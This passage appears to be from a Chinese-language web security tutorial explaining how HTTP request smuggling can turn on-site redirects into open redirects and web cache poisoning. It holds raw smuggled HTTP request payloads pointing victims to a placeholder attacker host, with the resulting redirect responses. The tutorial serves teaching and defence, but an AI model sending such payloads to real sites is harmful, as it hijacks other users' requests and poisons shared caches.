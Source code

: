 这种行为通常被认为是无害的，但是它可以在请求走私攻击中被利用来将其他用户重定向到外部URL，例如：

```plain
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```

走私的请求将触发重定向到攻击者的网站，这将影响后端服务器处理的下一个用户的请求，例如：

```plain
GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /scripts/include.js HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```

我们可能遇到服务器级重定向大多使用路径为位置标头构造相对于根目录的URL，例如：

```plain
GET /example HTTP/1.1
Host: normal-website.com

HTTP/1.1 301 Moved Permanently
Location: /example/
```

上面的貌似没啥大问题，但是如果服务器允许在路径中使用与协议相关的URL，这仍有可能用于开放式重定向

```plain
GET //attacker-website.com/example HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 301 Moved Permanently
Location: //attacker-website.com/example/
```

### 缓存投毒

在上述攻击的变体中我们也可以利用HTTP请求走私来执行Web缓存中毒攻击，如果前端基础结构的任何部分执行内容缓存(通常是出于性能原因)，那么就有可能用异地重定向响应来破坏缓存，这将使攻击持续下去，影响任何随后请求受影响URL的用户，在这种变体中攻击者向前端服务器发送以下所有内容：

```plain
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 59
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /static/include.js HTTP/1.1
Host: vulnerable-website.com
```
